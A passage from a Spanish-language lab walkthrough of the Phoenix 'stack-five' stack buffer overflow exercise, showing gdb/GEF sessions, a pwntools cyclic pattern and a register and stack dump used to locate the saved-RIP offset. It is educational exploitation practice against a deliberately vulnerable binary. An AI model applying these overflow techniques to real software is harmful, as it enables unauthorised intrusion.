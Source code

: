 ```csharp
gef➤
```

Luego con el comando r ejecutamos el binario y este nos pide el dato 

```csharp
gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

```

Generamos un **patrón único** con `pwn cyclic` (Pwntools) para provocar un crash y luego identificar el offset exacto donde se sobrescribe el **saved RIP**

```csharp
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/Binarios/5_stack-five]
└─# pwn cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

y este patrón es el que le enviamos al binario 

```csharp
gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Breakpoint 1, 0x00000000004005a1 in start_level ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007fffffffe5a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$rbx   : 0x00007fffffffe698  →  0x00007fffffffe89e  →  "/opt/phoenix/amd64/stack-five"
$rcx   : 0x8080808080808080
$rdx   : 0x00007fffffffe5ff  →  "ayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabl[...]"
$rsp   : 0x00007fffffffe5a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$rbp   : 0x00007fffffffe620  →  "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
$rsi   : 0xfefefefefefefeff
$rdi   : 0x00007fffffffe669  →  0x0000007ffff7ff00
$rip   : 0x00000000004005a1  →  <start_level+20> nop 
$r8    : 0x00007fffffffe5a0  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$r9    : 0xa0a0a0a0a0a0a0a  ("\n\n\n\n\n\n\n\n"?)
$r10   : 0x8080808080808080
$r11   : 0x1               
$r12   : 0x00007fffffffe6a8  →  0x00007fffffffe8bc  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$r13   : 0x00000000004005a4  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x0               
$eflags: [carry PARITY adjust zero sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe5a0│+0x0000: "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"	 ← $rax, $rsp, $r8
0x00007fffffffe5a8│+0x0008: "caaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoa[...]"
0x00007fffffffe5b0│+0x0010: "eaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqa[...]"
0x00007fffffffe5b8│+0x0018: "gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasa[...]"
0x00007fffffffe5c0│+0x0020: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
0x00007fffffffe5c8│+0x0028: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
```